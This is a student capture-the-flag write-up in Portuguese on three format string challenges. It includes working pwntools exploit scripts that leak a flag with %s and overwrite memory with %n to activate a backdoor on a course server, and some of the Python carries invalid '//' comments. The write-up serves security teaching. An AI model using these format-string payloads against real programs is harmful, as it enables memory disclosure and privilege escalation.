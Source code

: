 #CTF7

## Desafio1

### Vulnerability Analysis
Começamos com um payload de '''AAAA-%x-%x-%x-%x-%xs''' de modo a identificar o lugar da stack no qual estamos a escrever AAAA.

```
[diogo@mati Semana7-Desafio1]$ /bin/python /home/diogo/Documents/FSI/CTF6/Semana7-Desafio1/exploit_example.py
[+] Starting local process './program': pid 9108
[*] Paused (press any to continue)
[*] Switching to interactive mode
[*] Process './program' stopped with exit code 0 (pid 9108)
You gave me this: AAAA-41414141-2d78252d-252d7825-78252d78-78252d
Disqualified!
[*] Got EOF while reading in interactive
```

Usamos o comando objectdump para encontrar o endereço da variável flag, sendo esta a variável que desejamos ler.

```
[diogo@mati Semana7-Desafio1]$ objdump -x program 

program:     file format elf32-i386
program
architecture: i386, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x08049140
```

No output deste comando encontramos o endereço da nossa flag:
```
0804c060 g     O .bss   00000028              flag
```

### Exploit

Como sabemos que nos encontramos a escrever na primeira posição, ao alterar o AAAA pelo endereço da nossa flag, temos esse endereço na primeira posição. Se adicionarmos uma format string que lê strings guardadas num endereço, é possível lermos a nossa flag usando a format string %s.

```
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)


addr = "0804c060"
little = bytearray.fromhex(addr)[::-1] // this is the address of the flag in little endian
print(little)
x = b"%s" // this is the format string

p.recvuntil(b"got:")
p.sendline(little + x)
p.interactive()
```

## Desafio2

### Vulnerability Analysis
Neste desafio, não temos como objetivo ler o conteúdo do endereço, mas sim mudá-lo, uma vez que tal nos dá acesso a permissões.

### Exploit
Como o nosso objetivo é escrever e não ler, fazemos uso da %n, indicando previamente o que queremos escrever em formato de inteiro com o %x.

```
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

addr = "0804b324"  # \x24\xb3\x04\x08
// offset = 48879 - 4 = 48875 // 48879 is the integer representation of 0xbeef - 4 because of the offset of the adress
little = bytearray.fromhex(addr)[::-1]

p.recvuntil(b"here...")
p.sendline(b"\x24\xb3\x04\x08%1$48875x%n")
p.interactive()
```
Reparamos que a backdoor foi ativada, fazendo com que tenhamos agora permissões para ler no final o ficheiro da flag.

```
804b324Backdoor activated
$ cat flag.txt
flag_placeholder
```

## Desafio2.1

### Vulnerability Analysis
Este desafio é similar ao anterior. Contudo, há pormenores que diferenciam os dois.

```
[diogo@fodase Semana7-Desafio2_1]$ objdump -x program | grep key
0804b320 g     O .bss   00000004              key
```

Este endereço contém o número 20, que em utf-8 é um espaço o que significa que o nosso printf irá parar de imprimir a certo ponto.

### Exploit
Escrevemos então um payload maior num endereço anterior para empurrar o nosso payload para a frente.

```
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

addr = "0804b31f"  # \x1f\xb3\x04\x08
# payload will be 0xbeef00 because we want to push it forward
# offset = 12513024 - 4 = 12513020
little = bytearray.fromhex(addr)[::-1]

p.recvuntil(b"here...")
p.sendline(b"\x1f\xb3\x04\x08%1$12513020x%n")
p.interactive()
```
